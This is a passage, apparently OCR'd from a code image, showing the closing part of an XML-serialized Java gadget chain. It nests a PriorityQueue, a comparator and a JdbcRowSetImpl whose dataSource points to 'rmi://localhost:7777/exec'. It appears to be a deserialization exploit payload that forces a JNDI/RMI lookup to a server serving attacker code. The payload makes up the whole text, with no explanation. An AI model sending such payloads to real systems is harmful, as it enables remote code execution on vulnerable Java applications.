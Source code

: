 ```bash
                      <queryTimeout>0</queryTimeout>
                      <readOnly>true</readOnly>
                      <rowSetType>1004</rowSetType>
                      <showDeleted>false</showDeleted>
                      <dataSource>rmi://localhost:7777/exec</dataSource>
                      <params/>
                    </default>
                  </javax.sql.rowset.BaseRowSet>
                  <com.sun.rowset.JdbcRowSetImpl>
                    <default>
                      <iMatchColumns>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                      </iMatchColumns>
                      <strMatchColumns>
                        <string>foo</string>
                        <null/>
                        <null/>
                        <null/>
                        <null/>
                        <null/>
                        <null/>
                        <null/>
                        <null/>
                        <null/>
                      </strMatchColumns>
                    </default>
                  </com.sun.rowset.JdbcRowSetImpl>
                </jaxbObject>
              </dataSource>
            </message>
            <satellites/>
            <invocationProperties/>
          </packet>
        </indexMap>
      </comparator>
    </default>
    <int>3</int>
    <string>javax.xml.ws.binding.attachments.inbound</string>
    <string>javax.xml.ws.binding.attachments.inbound</string>
  </java.util.PriorityQueue>
</java.util.PriorityQueue>
```
